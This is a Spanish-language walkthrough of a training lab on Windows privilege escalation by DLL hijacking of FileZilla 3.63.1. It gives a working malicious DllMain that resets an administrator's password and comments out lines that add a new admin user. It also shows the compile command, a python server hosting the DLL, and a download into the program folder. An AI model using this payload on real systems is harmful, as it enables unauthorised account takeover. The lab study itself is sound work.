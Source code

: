 # Walk: Windows Privilege Escalation - DLL Hijacking - VM #1

## Fecha: 09/03/2025
## Host: Windows
## IP: 192.168.173.220
## Objetivo
Follow the steps from this section on _CLIENTWK220_ (VM #1) to identify the missing DLL, cross-compile your own DLL, and place it in a directory that it gets executed when the service _FileZilla FTP Client_ is started. After placing the malicious DLL wait several minutes for a high privileged user to start the application, obtain code execution, an interactive shell, or access to the GUI and enter the flag, which can be found on the desktop of _daveadmin_.
## Herramientas
1. xfreerdp
2. Get-ItemProperty
3. x86_64-w64-mingw32-gcc
## Procedimiento y comandos
#### Paso 1: Enumeramos en busqueda de la _DLL_ faltante
1. Nos conectamos por _rdp_: `xfreerdp /u:"steve" /p:"securityIsNotAnOption++++++" /v:192.168.173.220 /dynamic-resolution +clipboard /cert:ignore`
2. Obtenemos desde powershell una lista de los programas instalados: `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
```
displayname
-----------

FileZilla 3.63.1
KeePass Password Safe 2.51.1
Microsoft Edge
Microsoft Edge Update
Microsoft Edge WebView2 Runtime

Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.28.29913
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.28.29913
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.28.29913
Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.28.29913
```
>vemos que la versión 3.63.1 de la aplicación FileZilla FTP Client está presente en la máquina
#### Vector de ataque:
>Según los recursos en línea, esta aplicación parece contener una [vulnerabilidad de secuestro de DLL](https://filezilla-project.org/). Cuando se inicia la aplicación, intentará cargar el archivo **TextShaping.dll** desde el directorio de instalación. Si podemos colocar una DLL maliciosa aquí, entonces, cada vez que alguien intente ejecutar FileZilla FTP Client, la DLL debería cargarse con los permisos del usuario.


#### Paso 2: Generar y cargar la dll maliciosa
1. Antes de continuar debemos saber si el usuario _steve_ tiene permisos para crear archivos en el directorio de FileZilla:
```
PS C:\Users\steve> echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'
PS C:\Users\steve> type 'C:\FileZilla\FileZilla FTP Client\test.txt'
test
PS C:\Users\steve>
```
> Tenemos permisos necesarios para crear archivos.
2. Enumeramos DLLs cargadas por FileZilla con _**Process Manager**_
>_"En este ejemplo, simularemos este paso iniciando Process Monitor como **backupadmin**. Podemos navegar en el explorador de Windows hasta **C:\tools\Procmon**  y hacer doble clic sobre Procmon64.exe. Nos aparecerá una ventana que nos pedirá las credenciales de usuario administrativo como se muestra en la siguiente imagen. Una vez que introduzcamos la contraseña **admin123admin123!** para backupadmin y aceptemos los términos, el programa se iniciará."_

- Filtramos en el process manager para obsrevar la dll especifica que estamos buscando, para obtener informacion relevante.
La Dll en cuestion no esta presente en el directorio principal de FileZilla ya que en los results obtenemos **NAME NOT          FOUND** lo cual implica que podemos coloar en ese directorio nuestra dll maliciosa.
3. Creamos nuestra dll, que en este caso el flag se encuentra en el Desktop de daveadmin, lo que podemos hacer es que la dll cambie las credenciales de daveadmin como lo hicimos en el desafio anterior.
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
       // int i;
           // i = system ("net user dave3 password123! /add");
           // i = system ("net localgroup administrators dave3 /add");
        system("net user daveadmin password123!");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
4. Compilamos el _.cpp_ a _dll_: `x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll`
5. Servimos con python: `python3 -m http.server 80`
6. Obtenemos desde el usuario _steve_: ` iwr -uri http://192.168.45.198/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'`
#### Paso3: Obtenemos el flag:
1. Esperamos unos minutos a que algun usuario ejecute el cliente FTP
2. Corremos con _runas_ como usuario **_daveadmin_** y colocamos las nuevas credenciales: **_password123!_**
3. Buscamos en el Desktop: 
```
C:\Users\daveadmin\Desktop>type flag.txt
OS{ae43****************************f20d}
```

